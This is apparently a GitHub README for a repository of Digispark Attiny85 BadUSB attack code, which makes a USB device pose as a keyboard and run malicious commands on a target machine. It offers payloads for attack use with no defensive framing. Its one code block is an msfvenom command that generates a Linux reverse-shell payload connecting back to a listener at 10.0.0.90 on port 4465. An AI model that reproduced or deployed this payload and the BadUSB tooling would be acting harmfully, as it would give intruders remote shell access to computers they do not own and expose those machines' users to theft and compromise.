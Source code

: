# Digispark BadUSB Attiny85

## Overview

This repository contains code and resources for implementing BadUSB attacks using Digispark Attiny85. BadUSB refers to a type of attack where a USB device emulates a keyboard or other input device to execute malicious commands on a target system.

## Features

- Attiny85 programming for BadUSB attacks.
- Code for various BadUSB payloads.
- Documentation on how to use and customize the code.
- Additional resources on Digispark, Attiny85, and BadUSB attacks.

## simple-revshell-msfvenom.ino used msfvenom command for generate a simple rev shell payload
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.90 LPORT=4465 -f elf > shellcode.elf
```
